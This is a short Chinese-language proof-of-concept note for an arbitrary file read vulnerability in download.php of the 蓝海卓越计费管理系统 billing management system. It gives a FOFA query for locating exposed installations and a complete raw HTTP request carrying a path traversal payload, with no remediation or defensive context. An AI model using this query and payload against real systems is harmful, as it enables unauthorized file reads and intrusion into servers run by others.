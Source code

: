 ## 蓝海卓越计费管理系统存在download.php任意文件读取漏洞



## fofa

```
title="蓝海卓越计费管理系统"
```



## poc

```
GET /download.php?file=../../../../../usr/local/usr-gui/download.php HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 12
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=n8n03vmefnnrejq35697pbivl6
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

![image-20240525134843597](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405251348660.png)